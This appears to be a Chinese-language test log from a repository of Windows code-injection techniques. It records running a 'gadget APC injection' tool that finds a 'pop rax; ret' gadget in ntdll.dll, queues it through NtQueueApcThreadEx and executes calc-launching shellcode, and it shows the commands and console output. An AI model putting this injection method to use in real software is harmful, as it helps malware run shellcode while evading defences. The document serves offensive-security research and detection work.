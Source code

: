 - **操作系统**: Windows 10 (MSYS_NT-10.0-26100 x86_64)
- **编译器**: GCC (MinGW64)
- **架构**: **64 位**
- **日期**: 2025-10-08

### 测试 1: 本地注入（64 位环境，使用 technique 23 payload）

**命令**:
```bash
cd techniques/27-gadget-apc-injection
./build/gadget_apc_injection.exe local ../23-threadless-inject/payload.bin
```

**输出**:
```
[+] Loaded shellcode: 276 bytes

[+] Local Gadget APC Injection
[+] Shellcode address: 00000294CEA40000
[+] Shellcode size: 276 bytes

[+] NtQueueApcThreadEx: 00007FFB404C6050
[+] NtTestAlert: 00007FFB404C6C70

[+] Module ntdll.dll base address: 00007FFB40360000
[+] Module size: 2527232 bytes
[+] Searching for gadgets in executable sections...
[+] Scanning section: .text
[+] Scanning section: SCPCFG
... (其他节)
[+] Found 2048 gadgets
[+] Selected random gadget at ntdll.dll!00007FFB4048801F (index 53/2048)
[+] Gadget bytes: 58 C3 (pop rax; ret)

[+] Queueing APC with gadget...
[+] ApcRoutine = 00007FFB4048801F (ntdll.dll gadget)
[+] SystemArgument1 = 00000294CEA40000 (shellcode)

[+] NtQueueApcThreadEx succeeded
[+] Calling NtTestAlert to trigger APC...

Segmentation fault
```

**验证**:
```bash
tasklist | grep -i "calc.exe"
```
结果：**Calculator.exe 正在运行！** ✅

**结果**: ✅ **成功**（尽管程序崩溃）

**原因**: Shellcode成功执行并启动了calc.exe。段错误是因为某些shellcode在执行完毕后不会正确返回到调用者，而是直接退出或跳转到无效地址。这是**预期行为**，不影响技术的有效性。

